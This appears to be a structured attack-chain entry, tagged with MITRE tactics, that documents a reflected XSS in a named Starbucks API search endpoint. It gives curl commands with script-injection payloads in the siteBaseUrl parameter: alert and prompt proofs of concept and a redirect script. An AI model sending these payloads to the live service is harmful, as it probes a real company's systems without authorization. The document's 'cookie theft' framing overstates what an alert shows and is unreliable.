

---
tags:
  - xss
  - reflected-xss
  - open-redirect
  - web-vulnerability
  - api-exploit
type: attack_chain
tools: []
tactics:
  - '[[Initial Access]]'
  - '[[Execution]]'
  - '[[Collection]]'
verified: false
platforms:
  - Web
submitted: true
complexity: medium
created_at: '2023-10-01T00:00:00Z'
procedures:
  - '[[procedures/Identify-Vulnerable-Starbucks-API-Endpoint]]'
  - '[[procedures/Test-siteBaseUrl-for-XSS-Reflection]]'
  - '[[procedures/Exploit-Reflected-XSS-with-JavaScript-Payload]]'
  - '[[procedures/Demonstrate-Open-Redirect-via-XSS]]'
step_count: 4
techniques:
  - '[[JavaScript]]'
  - '[[Exploit Public-Facing Application]]'
updated_at: '2025-12-14T17:32:11.126Z'
description: >-
  Multi-stage exploitation of a Reflected XSS vulnerability in the Starbucks
  OpenAPI search endpoint to execute JavaScript, steal cookies, and perform open
  redirects.
skill_level: intermediate
impact_level: high
id: e8c2634b-ebe3-44e8-b93e-2736773001a3
validated: true
mitre_tactics:
  - '[[Initial Access]]'
  - '[[Execution]]'
  - '[[Collection]]'
mitre_techniques:
  - '[[JavaScript]]'
  - '[[Exploit Public-Facing Application]]'
---
# Reflected XSS in Starbucks OpenAPI Leading to Cookie Theft and Open Redirect

Multi-stage attack chain demonstrating the exploitation of a Reflected XSS vulnerability in the Starbucks OpenAPI endpoint at openapi.starbucks.com/searchasyoutype/v1/search. The attack begins with identifying the vulnerable parameter, testing for reflection, injecting payloads to execute JavaScript for cookie theft, and chaining to an open redirect for phishing potential.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 4 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- Browser developer tools for payload testing
- API client like curl or Postman

### Target Environment

- Web platform
- Access to Starbucks OpenAPI endpoint
- Valid x-api-key and partnerid (obtained via testing or disclosure)

### Initial Access Requirements

- Public internet access
- No authentication beyond API keys
- No prior access needed

## Detailed Attack Procedures

### Step 1: Identify Vulnerable Endpoint
procedure: [[procedures/Identify-Vulnerable-Starbucks-API-Endpoint]]

**Objective**: Locate the search endpoint and understand its parameters to identify potential injection points.

**Instructions**: Access the endpoint using a basic query to observe parameters like siteBaseUrl.

Use [[commands/access-basic-api-endpoint]] to send an initial request:

```bash
curl "https://openapi.starbucks.com/searchasyoutype/v1/search?x-api-key=yourkey&query=coffe&partnerid=yourpartner&siteBaseUrl=http://example.com"
```

**Expected Output**: JSON response reflecting parameters without errors.

**Success Indicators**:
- Endpoint responds successfully
- Parameters like siteBaseUrl are accepted

### Step 2: Test Parameter for Reflection
procedure: [[procedures/Test-siteBaseUrl-for-XSS-Reflection]]

**Objective**: Inject test payloads into siteBaseUrl to check if user input is reflected unsanitized in the response.

**Instructions**: Modify the siteBaseUrl with simple test strings like '<script>alert(1)</script>' and observe the response.

Execute [[commands/test-sitebaseurl-reflection]]:

```bash
curl "https://openapi.starbucks.com/searchasyoutype/v1/search?x-api-key=yourkey&query=coffe&partnerid=yourpartner&siteBaseUrl=http://example.com/<script>alert(1)</script>"
```

**Expected Output**: Payload reflected in HTML or response body without encoding.

**Success Indicators**:
- Input appears in output unchanged
- No sanitization errors

### Step 3: Exploit Reflected XSS
procedure: [[procedures/Exploit-Reflected-XSS-with-JavaScript-Payload]]

**Objective**: Inject a JavaScript payload to execute code in the victim's browser, demonstrating domain access or cookie theft.

**Instructions**: Use a payload that breaks out of the URL context and executes JS, such as via onload event.

Run [[commands/inject-xss-payload-sitebaseurl]]:

```bash
curl "https://openapi.starbucks.com/searchasyoutype/v1/search?x-api-key=yourkey&query=coffe&partnerid=yourpartner&siteBaseUrl=http://googl.com/%0a<body onload=prompt(document.domain)>"
```

For cookie theft, use [[commands/inject-cookie-theft-xss]]:

```bash
curl "https://openapi.starbucks.com/searchasyoutype/v1/search?x-api-key=yourkey&query=coffe&partnerid=yourpartner&siteBaseUrl=http://googl.com/%0a<body onload=alert(document.cookie)>"
```

**Expected Output**: Alert popup with document domain or cookies.

**Success Indicators**:
- JavaScript executes (alert fires)
- Sensitive data like cookies is accessible

### Step 4: Demonstrate Open Redirect
procedure: [[procedures/Demonstrate-Open-Redirect-via-XSS]]

**Objective**: Chain XSS with a redirect script to send users to malicious sites for phishing.

**Instructions**: Inject a script tag that performs a window.location redirect after breakout.

Execute [[commands/inject-open-redirect-payload]]:

```bash
curl "https://openapi.starbucks.com/searchasyoutype/v1/search?x-api-key=yourkey&query=coffe&partnerid=yourpartner&siteBaseUrl=http://googl.com/%0a<script>window.location='https://google.com';</script>"
```

**Expected Output**: Browser redirects to the specified external site.

**Success Indicators**:
- Automatic redirect occurs
- Potential for phishing setup confirmed

## Attack Chain Summary

### Key Achievements

1. Identified and confirmed Reflected XSS in siteBaseUrl parameter
2. Executed JavaScript to steal cookies via alert
3. Demonstrated open redirect for phishing escalation
4. Highlighted lack of input sanitization in API response

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[JavaScript]]
- [[Exploit Public-Facing Application]]

### MITRE ATT&CK Tactics

- [[Initial Access]]
- [[Execution]]
- [[Collection]]

---

*Last updated: 2023-10-01T00:00:00Z*
